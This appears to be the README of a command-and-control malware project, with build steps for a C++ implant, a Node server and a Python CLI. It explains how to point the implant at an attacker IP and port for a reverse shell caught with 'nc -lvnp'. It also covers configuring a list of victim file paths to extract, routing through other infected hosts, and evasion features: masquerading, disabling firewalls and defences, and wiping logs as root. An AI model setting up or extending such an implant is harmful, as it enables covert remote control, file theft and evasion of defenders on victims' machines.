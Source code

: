 # Command & Control

## Implant
```bash
cd client
```

### Dependency
You need to install the cpr library:
https://girishjoshi.io/post/using-cpr-for-making-http-requests-c++/ 

Possible issue:
```bash
./bin/prog: error while loading shared libraries: libcpr.so.1: cannot open shared object file: No such file or directory
```
https://stackoverflow.com/questions/480764/linux-error-while-loading-shared-libraries-cannot-open-shared-object-file-no-s

### Compile 
```bash
make
```

### Configuration


### Execution
```bash
make run
```

## Server
```bash
cd api
```

### Setup 
```bash
npm install
chmod +x setup.sh
./setup.sh
```

### Execution
```bash
just
```

## CLI

### Execution
```bash
python3 run.py
```

### How to get a reverse shell
You can configure the implant with the IP and PORT that you want.
Go to client/src/config.hpp:
```cpp
#define RS_IP YOUR_IP
#define RS_PORT YOUR_PORT
```

On your machine, you need to listen for a connection with *nc*
```bash
nc -lvnp RS_IP RS_PORT
```

### How to extract files

First you need to configure the implant, go to client/src/config.hpp
Add to the variable *file_to_extract* the abolute paths of the files you want to get.
```cpp
21: static const std::array<const char*, 1> file_to_extract({"/home/username/exemple"});
``` 

### Routing and Beacon

To take advantage of the routing componant of this C2 you need to configure the implant with all the IP addresses that you want to try to connect in the hope that one of them is infected and connected to internet.  
Go to client/src/config.hpp: Add to the variable *routing* all the IPs
```cpp
19: static const std::array<const char*, NUMBER_OF_IPs> routing({"127.0.0.1"});
```

# Defence Evasion technics

- Masquerading 

## If executed as root 

- Disable firewall and defences
- Remove logs

# Author
Evan Clausse